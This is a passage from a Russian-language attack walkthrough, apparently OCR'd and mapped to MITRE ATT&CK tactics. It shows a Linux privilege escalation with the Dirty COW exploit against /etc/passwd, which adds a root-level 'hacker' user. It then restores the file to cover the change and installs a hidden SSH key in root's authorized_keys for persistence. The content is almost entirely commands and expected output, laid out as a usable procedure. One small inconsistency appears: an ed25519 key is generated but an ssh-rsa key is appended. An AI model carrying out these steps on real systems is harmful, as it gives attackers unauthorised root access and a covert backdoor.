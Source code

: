 **Шаг 3: Создание резервной копии**  
```bash
# Сохранение оригинальной версии /etc/passwd
cp /etc/passwd /etc/passwd.bak
```

---

#### [TA0002] – Execution (Выполнение кода)
**Шаг 1: Запуск эксплоита**  
```bash
./dirtyc0w /etc/passwd /tmp/passwd
# Вывод: 
# [+] Race won! /etc/passwd overwritten
```
* Эксплоит создает 2 потока с приоритетом `SCHED_FIFO` (максимальный приоритет)  
* Среднее время эксплуатации: 5-60 секунд (зависит от нагрузки CPU)  
* Эксплоит заменяет `/etc/passwd` на версию с новым пользователем (UID=0)  

**Шаг 2: Аутентификация под новым пользователем**  
```bash
# Аутентификация под root-пользователем
su - hacker
Password: 123456  # Ввод пароля
```

**Шаг 3: Проверка привилегий:**  
```bash
whoami  # root
id  # uid=0(hacker) gid=0(root) groups=0(root)

# Проверка целостности файла
ls -l /etc/passwd
# Вывод: 
# -rw-r--r-- 1 root root ... /etc/passwd (файл корректный!)
```

---

#### [TA0003] – Persistence (Закрепление)
**Шаг 1: Восстановление файла**  
```bash
# После получения root восстанавливаем /etc/passwd
mv /etc/passwd.bak /etc/passwd
```

**Шаг 2: Установка скрытого SSH-ключа**  
```bash
mkdir -p /root/.ssh
chmod 700 /root/.ssh

# Генерация SSH-ключа на атакующей машине
ssh-keygen -t ed25519 -f /tmp/attacker_key -N ""

# Добавление в authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2E..." >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```
